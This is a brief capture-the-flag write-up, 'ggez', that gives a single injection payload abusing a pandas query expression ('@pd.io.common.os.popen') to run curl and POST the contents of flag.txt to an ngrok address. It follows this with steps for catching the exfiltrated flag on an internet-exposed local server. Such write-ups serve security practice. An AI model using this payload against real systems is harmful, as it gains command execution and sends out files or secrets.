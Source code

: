 # Writeup - ggez
payload = `' and @pd.io.common.os.popen('curl -X POST -d "flag=$(cat flag.txt)" -ipv4 https://a56e-111-95-107-251.ngrok-free.app') `

1. create local server to accept flags from services.
2. use ngrok or pipedream to make your local server accessible from the internet
3. submit the flag
